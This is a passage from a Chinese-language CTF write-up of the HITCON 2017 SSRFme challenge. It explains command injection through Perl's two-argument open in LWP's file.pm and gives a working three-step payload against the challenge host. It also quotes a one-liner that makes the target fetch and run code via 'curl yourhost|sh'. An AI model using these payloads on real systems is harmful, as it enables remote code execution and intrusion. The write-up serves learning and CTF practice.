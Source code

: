 在open下，如果perl的第二个参数（path）可控，我们就能进行任意代码执行。

而GET对协议处理部分调用的是 `/usr/share/perl5/LWP/Protocol`下的各个pm模块，通过查询可以发现在file.pm中，path参数是完全可控的。

源码如下：

```perl
...
# URL OK, look at file
my $path  = $url->file;

# test file exists and is readable
unless (-e $path) {
return HTTP::Response->new( &HTTP::Status::RC_NOT_FOUND,
              "File `$path' does not exist");
}
...
# read the file
if ($method ne "HEAD") {
open(F, $path) or return new
    HTTP::Response(&HTTP::Status::RC_INTERNAL_SERVER_ERROR,
           "Cannot read file '$path': $!");
...
```

这里多了一个限制条件，就是file.pm会先判断文件是否存在。若存在，才会触发最终的代码执行。

```bash
➜  test GET 'file:id|'
➜  test touch 'id|'
➜  test GET 'file:id|'
uid=1000(moxiaoxi) gid=1000(moxiaoxi) groups=1000(moxiaoxi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

那么，最终的payload就很简单了。

```Bash
1. 新建一个bash%20-c%20/readflag|文件
http://13.115.136.15/?url=xxx&filename=|/readflag
2. open文件，并触发命令执行，执行readflag，并将数据写入flag
http://13.115.136.15/?url=file:|/readflag&filename=flag
3. 访问sandbox下的flag，获得flag
http://13.115.136.15/sandbox/5d4ef0aebfb2070eb64c89b752d7ce89/flag
```

当然，既然可以命令执行，你也可以下载一个脚本，然后sh执行，如@Paul Axe写的WP：

> ```bash
> curl 'http://13.115.136.15/?url=a&filename=|curl+yourhost|sh';curl 'http://13.115.136.15/?url=file:|curl+yourhost|sh' #HITCON SSRFme writeup
> ```

参考：

1. https://github.com/orangetw/My-CTF-Web-Challenges/tree/master
2. https://twitter.com/Paul_Axe/status/927669724439293953
3. https://ricterz.me/posts/HITCON%202017%20SSRFme
4. https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/ssrfme.md
